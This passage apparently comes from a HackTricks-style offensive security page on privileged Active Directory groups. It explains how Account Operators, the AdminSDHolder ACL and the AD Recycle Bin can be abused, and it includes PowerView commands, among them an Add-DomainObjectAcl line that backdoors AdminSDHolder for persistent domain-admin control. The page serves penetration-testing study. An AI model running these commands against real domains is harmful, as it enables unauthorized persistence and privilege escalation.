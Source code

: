 {% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

## Well Known groups with administration privileges

* **Administrators**
* **Domain Admins**
* **Enterprise Admins**

## Account Operators

This group is empowered to create accounts and groups that are not administrators on the domain. Additionally, it enables local login to the Domain Controller (DC).

To identify the members of this group, the following command is executed:

```powershell
Get-NetGroupMember -Identity "Account Operators" -Recurse
```

Adding new users is permitted, as well as local login to DC01.

## AdminSDHolder group

The **AdminSDHolder** group's Access Control List (ACL) is crucial as it sets permissions for all "protected groups" within Active Directory, including high-privilege groups. This mechanism ensures the security of these groups by preventing unauthorized modifications.

An attacker could exploit this by modifying the **AdminSDHolder** group's ACL, granting full permissions to a standard user. This would effectively give that user full control over all protected groups. If this user's permissions are altered or removed, they would be automatically reinstated within an hour due to the system's design.

Commands to review the members and modify permissions include:

```powershell
Get-NetGroupMember -Identity "AdminSDHolder" -Recurse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}
```

A script is available to expedite the restoration process: [Invoke-ADSDPropagation.ps1](https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1).

For more details, visit [ired.team](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence).

## AD Recycle Bin

Membership in this group allows for the reading of deleted Active Directory objects, which can reveal sensitive information:

```bash
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
